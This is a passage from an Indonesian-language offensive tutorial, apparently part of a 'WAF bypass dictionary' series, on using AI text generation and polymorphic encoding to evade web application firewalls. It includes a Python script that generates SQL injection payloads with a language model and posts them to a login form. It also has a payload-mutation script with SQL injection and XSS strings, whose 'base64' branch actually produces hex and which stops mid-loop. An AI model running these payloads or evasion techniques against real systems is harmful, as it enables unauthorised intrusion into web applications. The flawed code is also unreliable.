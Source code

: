 
## 🛡️ Kesimpulan  
Di **Part 6**, kita membahas **masa depan WAF dengan AI, Blockchain, dan Zero Trust Model**.  
WAF tidak boleh statis — harus terus **beradaptasi dengan ancaman baru** di era post-kuantum. 🚀  

# Kamus Besar Bypass WAF - Part 7

## 🤖 Offensive AI: Menggunakan AI untuk Menemukan Celah di WAF

WAF modern berbasis AI sering kali memiliki **kelemahan dalam generalisasi model**.  
Serangan berbasis **Offensive AI** memanfaatkan AI untuk **mempelajari, meniru, dan mengeksploitasi pola deteksi WAF**.

**🔹 Teknik Offensive AI untuk Bypass WAF:**  
1. **Automated Adversarial Attacks** → Menyusun payload yang optimal berdasarkan feedback dari WAF.  
2. **AI-Powered WAF Fingerprinting** → Menggunakan AI untuk **mendeteksi aturan WAF sebelum eksploitasi**.  
3. **Self-Learning Exploits** → Payload yang otomatis berkembang berdasarkan respon server target.  

**Contoh AI untuk Mendeteksi Weakness WAF:**  
```python
import requests
from transformers import pipeline

target_url = "https://target.com/login"
payload_generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")

# Generate dynamic attack payload
payload = payload_generator("Generate a SQL Injection payload that bypasses WAF:", max_length=50)
response = requests.post(target_url, data={"username": "admin", "password": payload})

print(f"Generated Payload: {payload}")
print(f"Response Status: {response.status_code}")
```

---

## 🦠 Hyper-Evasive Malware & Polymorphic Attacks

Polymorphic attacks memungkinkan **payload berubah setiap kali dieksekusi**, membuatnya sulit dideteksi oleh WAF.  
**Teknik Utama:**  
- **Code Mutation** → Payload berubah pada setiap eksekusi.  
- **Encrypted Payload Delivery** → Payload dikirim dalam bentuk terenkripsi dan hanya dieksekusi di target.  
- **AI-Driven Code Injection** → Menggunakan **GAN (Generative Adversarial Networks)** untuk menciptakan payload unik.  

**Contoh Payload Polymorphic dalam Python:**  
```python
import random

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
mutations = ["base64", "hex", "url_encode"]

def mutate_payload(payload, method):
    if method == "base64":
        return payload.encode("utf-8").hex()
    elif method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    return payload

for _ in range(5):
```